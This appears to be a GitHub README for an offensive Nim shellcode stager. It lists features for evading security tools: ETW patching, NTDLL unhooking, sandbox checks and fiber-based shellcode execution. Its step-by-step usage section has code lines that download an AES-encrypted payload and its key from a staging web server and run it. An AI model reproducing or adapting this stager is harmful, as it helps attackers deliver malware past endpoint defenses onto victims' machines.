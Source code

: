 # Simple Nim Stager w/ a few features

## Features

- HTTP Stager (with AES key and IV staged)
- Shellcode execution using Fibers
- Dynamic functions retrieval
- AES 256 CTR Decryption
- Basic sandbox check (Numbers of CPUs, Amount of RAM, C:\ capacity, Sleep timer)
- ETW Patching
- NTDLL Unhooking

## Usage

### 1. Setup encrypt.nim

First of all, you have to change a few variables in encrypt.nim file.
#### 1.1 Shellcode file
```nim
let shellcode = readFile("shellcode.bin") # <-- TO EDIT
```

#### 1.2 Envkey (optional)
```nim
envkey: string = "AAAAAAAAAAAA" # <-- TO EDIT
```

With that being done, you can run `encrypt.nim`.

```
$> nim r ./encrypt.nim
```

It is going to generate you 2 files : `sc_enc.bin` (the encrypted shellcode) and `constants.json` (where IV and KEY are stored). You have to take those two files and put it in the root of the webserver you want to use to stage your payload.

### 2. Edit main.nim
In the main stub you have to replace the default localhost to your stager server.

```nim
var enctext =  toByteSeq(client.getContent("http://127.0.0.1:8000/sc_enc.bin")) # <-- TO EDIT
var constants = parseJson(client2.getContent("http://127.0.0.1:8000/constants.json")) # <-- TO EDIT
```

### 3. Compile
You can now compile `main.nim`.

```nim
$> nim c -d:release ./main.nim
```

## Ressources used

- https://github.com/byt3bl33d3r/OffensiveNim
